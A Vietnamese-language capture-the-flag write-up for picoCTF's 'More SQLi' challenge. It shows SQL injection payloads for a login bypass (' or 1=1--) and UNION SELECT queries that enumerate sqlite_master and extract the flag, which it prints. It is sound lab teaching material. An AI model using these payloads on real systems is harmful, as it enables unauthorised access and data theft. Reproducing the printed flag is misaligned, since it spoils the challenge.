 # Write-up : More SQLi
---
### Descriptiom :
> Can you find the flag on this website.
Additional details will be available after launching your challenge instance.
### Hint :
> SQLiLite
---
### Solution :
- Như ta đã thấy thì bài này sài ``` SQLiLite ```, sau khi mở link thì vẫn là form đăng nhập
- sau khi thử đăng nhập bình thường thì có trả về query như sau :
```
username: user
password: pass
SQL query: SELECT id FROM users WHERE password = 'pass' AND username = 'user'
```
- Lần này chúng ta cần phải thêm payload vào ô password chứ không phải username như bình thường tại vì password được truy xuất đến trước username
- Chúng ta sử dụng payload "kinh điển" của lỗi SQL Injection đó là `` 'or 1=1-- ``

  Sau khi đăng nhập thành công, chúng ta thấy xuất hiện 1 màn hình hiển thị danh sách:
  ![](../img/More-SQLi-interface.png)
  
- Như tên của bài thì chắc hẳn là có thêm lỗi SQL injection ở đâu đó nữa
- Ta thử ở ô `` Search `` với câu truy vấn : `` 'UNION SELECT 1,2,3;-- ``
> Tại sao là `` 'UNION SELECT 1,2,3;-- ``, vì ở đây ta thấy xuất hiện 3 cột và các lỗi về sql hoàn toàn không được hiển thị buộc chúng ta phải đoán và chúng ta không thế tốn request để đoán từ 1 cột vì rất dễ bị bộ phận an toàn của web nhận ra, và tại sao lại chọn các con số `` 1,2,3 `` tại vì nó gọn dễ phát hiện khi có vị trí thay đổi thành như thế, ngoài ra là vì số đẹp :)))

Tiếp tục với bài, ta sẽ thấy sau khi search như vậy thì kết quả trả về là :
![](../img/More-SQLi-test.png)

#### Vậy kết luận là ô search có bị SQL injection và cho biết thêm là bảng có 3 cột 
Việc tiếp theo là tìm các tên bảng và tên cột của bảng :
- Chúng ta dùng payload : `` ' UNION SELECT name, sql, null from sqlite_master;-- `` để lấy tên bảng và tên cột 
- Sau khi tìm qua các bảng và các cột thì tôi phát hiện flag trong bảng `` more_table `` và cột `` flag `` :`` ' UNION SELECT flag, null, null from more_table;-- ``
### Flag : `` picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}	``
